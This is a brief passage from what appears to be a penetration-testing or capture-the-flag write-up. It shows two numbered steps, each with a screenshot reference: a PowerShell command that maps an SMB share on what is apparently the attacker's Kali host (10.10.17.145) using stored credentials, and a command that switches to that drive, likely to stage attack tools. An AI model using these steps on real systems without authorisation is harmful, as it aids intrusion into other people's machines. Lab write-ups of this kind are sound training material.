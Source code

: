 3. Set up the smb drive

```
New-PSDrive -Name kali -PSProvider FileSystem -Credential $creds -Root \\10.10.17.145\kalitool
```
![](./IMG/79.png)

4. Move to SMB drive

```
cd kali:
```

![](./IMG/80.png)
